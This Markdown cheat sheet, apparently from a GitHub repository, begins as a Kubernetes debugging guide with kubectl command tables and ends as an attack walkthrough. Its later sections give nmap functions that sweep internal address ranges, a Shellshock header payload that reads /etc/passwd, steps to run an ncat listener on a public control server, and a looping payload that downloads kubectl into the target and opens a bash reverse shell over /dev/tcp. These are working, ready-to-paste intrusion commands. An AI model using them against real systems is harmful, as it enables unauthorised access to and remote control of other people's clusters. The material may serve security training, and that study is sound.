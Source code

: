 This guide has been created to help engineers debug applications that are deployed into Kubernetes and not behaving correctly.

## Pod & Container Introspection

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `kubectl get pods`                                           | lists the current pods in the current namespace              |
| `kubectl get pods -w`                                        | watches pods continuously                                    |
| `kubectl describe pod <name>`                                | describe pod <name>                                          |
| `kubectl get rc`                                             | list the replication controllers                             |
| `kubectl get services` or `kubectl get svc`                  | list the services in the current namespace                   |
| `kubectl describe service <name>` or `kubectl describe svc <name>` | describe service <name>                                      |
| `kubectl delete pod <name> `                                 | delete pod <name>                                            |
| `kubectl get pods -o wide –w`                                | watch pods continuously and show  <br />info such as IP addresses & nodes provisioned on |

## Cluster Introspection

| Command                        | Description                                                  |
| :----------------------------- | :----------------------------------------------------------- |
| `kubectl version`              | get version info                                             |
| `kubectl cluster-info`         | get cluster info                                             |
| `kubectl config view`          | get cluster config                                           |
| `kubectl describe node <name>` | output info about a node                                     |
| `kubectl get nodes –w`         | watch nodes continuously                                     |
| `kubectl get nodes -o wide`    | gives a detailed view of nodes -  including internal & external IP address |

## Debugging

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `kubectl exec -ti <pod> <command>  [-c <container>]`         | execute command on pod , optionally on a<br />given container |
| `klog <pod> [-c <container>]` or<br />`kubectl logs -f <pod> [-c <container>`] | get logs of a given pod or optionally container              |
|                                                              |                                                              |
|                                                              |                                                              |

## Networking

| Command                                                      | Description                               |
| ------------------------------------------------------------ | ----------------------------------------- |
| `kubectl exec -ti <pod_name> -- /bin/sh -c  "curl -v <br /> telnet://<service_name>:<service-port>"` | testing TCP connectivity between services |
|                                                              |                                           |
|                                                              |                                           |
|                                                              |                                           |

## Other resources

<https://www.mankier.com/1/kubectl-auth-can-i> - check whether an action is allowed in your Kubernetes cluster

Use `amicontained` to find out what container runtime you're using as well as what capabilities the your container has.

```
# Export the sha256sum for verification.
$ export AMICONTAINED_SHA256="4e32545f68f25bcbcd4cce82743e916a054e1686df44fab68420fc9f94f80b21"

# Download and check the sha256sum.
$ curl -fSL "https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64" -o "/usr/local/bin/amicontained" \
	&& echo "${AMICONTAINED_SHA256}  /usr/local/bin/amicontained" | sha256sum -c - \
	&& chmod a+x "/usr/local/bin/amicontained"

$ echo "amicontained installed!"

# Run it!
$ amicontained -h
```

Add these functions to your environment so that you can scan for open ports

``` sudo apt-get update
sudo apt-get install nmap
nmap-kube () 
{ 
nmap --open -T4 -A -v -Pn -p 443,2379,4194,6782-6784,6443,8443,8080,9099,10250,10255,10256 "${@}"
}
nmap-kube-discover () {
local LOCAL_RANGE=$(ip a | awk '/eth0$/{print $2}' | sed 's,[0-9][0-9]*/.*,*,');                                                                  
local SERVER_RANGES=" ";
SERVER_RANGES+="10.0.0.1 ";
SERVER_RANGES+="10.0.1.* ";
SERVER_RANGES+="10.*.0-1.* ";
nmap-kube ${SERVER_RANGES} "${LOCAL_RANGE}"
}
nmap-kube-discover
```

Useful commands for finding open ports:

```
command nmap -Pn -T4 -F --open <host-ip>
# scanning every port, more is open
command nmap -Pn -T4 --open <host-ip> -p 0-65535
command nmap -Pn -T4 --open <host-ip> -p 30081
```

1. Check shellshock

   ```
   curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "cat /etc/passwd"'
   ```

2. create a control server to use as a reverse shell endpoint

   this requires any node with a public IP (a digital ocean server would do)

   ```
   # replace `controlplane` with a host that you can SSH to
   ssh controlplane ip a
   
   # replace 1234 with a port that is routable on the host you have SSH'd into
   while :; do ssh controlplane ncat --listen 1234 --output $(mktemp /tmp/hack-XXXX.log); done
   ```

3. shellshock in

   

   ```
    curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "echo hello"'
   ```

   Hardcore version:

   ```
   while :; do curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "test -f /tmp/k || wget -O /tmp/k https://storage.googleapis.com/kubernetes-release/release/v1.11.2/bin/linux/amd64/kubectl && chmod +x /tmp/k && /tmp/k version; df -h; while :; do nohup bash -i >& /dev/tcp/<host_ip>/1234 0>&1; sleep 1; done"'; done
   ```
